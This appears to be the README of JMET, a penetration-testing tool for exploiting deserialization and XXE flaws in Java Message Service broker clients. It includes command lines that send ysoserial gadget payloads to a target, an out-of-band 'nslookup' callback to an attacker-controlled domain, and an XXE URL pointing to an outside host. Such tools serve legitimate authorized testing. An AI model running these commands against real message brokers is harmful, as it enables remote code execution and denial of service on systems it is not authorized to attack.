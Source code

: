 # JMET
The Java Message Exploitation Tool
```ascii
       ____  _______________
      / /  |/  / ____/_  __/
 __  / / /|_/ / __/   / /   
/ /_/ / /  / / /___  / /    
\____/_/  /_/_____/ /_/
```

# Description
JMET was released at Blackhat USA 2016 and is an outcome of Code White's research
effort presented in the talk "Pwning Your Java Messaging With
Deserialization Vulnerabilities".
The goal of JMET is to make the exploitation of the Java Message Service (JMS) easy.
In the talk more than 12 JMS client implementations where shown, vulnerable to
deserialization attacks.
The specific deserialization vulnerabilities were found in ObjectMessage implementations
(classes implementing javax.jms.ObjectMessage).
The following more or less complete list shows the vulnerable JMS broker client
libraries:
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* Oracle Weblogic
* Pivotal RabbitMQ
* IBM MessageSight
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* Amazon SQS Java Messaging

For creating gadget payloads JMET makes use of Chris Frohoffs' Ysoserial.

# Supprted JMS client libraries
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* ~~Oracle Weblogic~~
* Pivotal RabbitMQ
* ~~IBM MessageSight~~
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* ~~Amazon SQS Java Messaging~~

# Dependencies
JMET depends on a lot of libraries :(. For details see the maven pom file.

JMET works with Java 8. Expect unpleasant surprises with Java 11.

# Installation
Just download jmet-0.1.0-all.jar from here or built it (see "Build instructions").

# Usage

```ascii
$ java -jar target/jmet-0.1.0-all.jar
ERROR d.c.j.JMET [main] Misconfiguration: Missing required options: [-C Custom script exploitation mode, -Y Deser exploitation mode, -X XXE exploitation mode], [-T topic name, -Q queue name], I
usage: jmet [host] [port]
 -C,--Custom <scriptname>         Custom script exploitation mode
 -f,--filter <scriptname>         filter script
 -I,--impl <arg>                  ActiveMQ| Artemis| WebSphereMQ| Qpid10|
                                  Qpid09| HornetQ| SwiftMQ| RabbitMQ|
                                  OpenMQ
 -pw,--password <pass>            password for authentication
 -Q,--Queue <name>                queue name
 -s,--substitute                  Substituation mode: Use §§ to pass
                                  ysoserial payload name to CMD
 -T,--Topic <name>                topic name
 -u,--user <id>                   user for authentication
 -v,--verbose                     Running verbose mode
 -X,--XXE <URL>                   XXE exploitation mode
 -Xp,--xxepayload <payloadname>   Optional: XXE Payload to use EXTERNAL|
                                  PARAMATER| DTD
 -Y,--ysoserial <CMD>             Deser exploitation mode
 -Yp,--payload <payloadname>      Optional: Ysoserial Payload to use
                                  BeanShell1| CommonsBeanutils1|
                                  CommonsCollections1|
                                  CommonsCollections2|
                                  CommonsCollections3|
                                  CommonsCollections4|
                                  CommonsCollections5| Groovy1|
                                  Hibernate1| Hibernate2| Jdk7u21| JSON1|
                                  ROME| Spring1| Spring2
 -Zc,--channel <channel>          channel name (only WebSphereMQ)
 -Zq,--queuemanager <name>        queue manager name (only WebSphereMQ)
 -Zv,--vhost <name>               vhost name (only AMQP-Brokers:
                                  RabbitMQ|QPid09|QPid10)
```
## Gadget exploitation mode
Create gadgets for executing "xterm" and send them all to queue "event".
As implementation ActiveMQ is choosen, the target system is "jmstarget" listening
on port 61616.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y xterm jmstarget 61616
```
To find out which gadget was executed you can use the "substitution"-mode with
 an out-of-band channel like DNS. To pass the gadget name to your command use
 the "§§" string which then gets substituted with the gadget name.

```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "nslookup §§.yourdomain.com" jmstarget 61616
```
## XXE exploitation mode
The XXE exploition mode requires to specify an URL to be resolved as an
external entity. The XXE vectors are sent inside a TextMessage.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -X http://192.168.85.148:8081 jmstarget 61616
```
## Custom exploitation mode
The custom exploitation mode allows to run a custom JavaScript script.
The purpose of this mode is to support different serialization formats (JSON, etc.)
and custom payloads.

The following example script uses the XML serialization library XStream.
The String "Object" is serialized to XML and put into an TextMessage using the
de.codewhite.jmet.target.JMSTarget.addTextPayload(String payloadName, String payloadText)-method.
Required libraries need to be put into the "external"-directory of JMET.
```javascript
function payload(target){

        var imports = new JavaImporter(java.io, java.lang, com.thoughtworks.xstream);
        with (imports) {

            xstream = new XStream();
            target.addTextPayload("test",xstream.toXML("Object"));

        }
}
```

## Filter scripts
Filter scripts are used for modifying "javax.jms.Message"-instances before sent
to the target destination.
The following Javascript changes the JMSPriority of every message, prints out
a string und returns the modified message back.
```javascript
function filter(message){

    message.setJMSPriority(3);
    print("Changed Priority")
    return message;

}
```

# Build instructions
Please put the following libraries of the commercial brokers into a
directory of your choice (e.g. DIR).

* com.ibm.mq.allclient.jar (WebSphere MQ)
* amqp.jar  (SwiftMQ)
* jms.jar (SwiftMQ)
* swiftmq.jar (SwiftMQ)

Then invoke maven with the property "commercial" set to your path.
```bash
$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single -Dcommerical=DIR
```

If you don't want to use the commercial brokers at all you can just delete
the following files:
* src/main/java/de/codewhite/jmet/target/impl/WebSphereMQTarget.java
* src/main/java/de/codewhite/jmet/target/impl/SwiftMQTarget.java

```bash
$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single
```
Using Java 11 can result in builds never finishing, always use Java 8!

# Disclaimer
JMET is a proof-of-concept tool for blackbox testing of JMS destinations.
Please use this tool with care and only when authorized.
Be aware that sending an invalid message to a JMS destination might result in a denial-of-service
 state (DOS) of the target system.
 You have been warned !!!

# License
JMET is released under The MIT License (MIT).
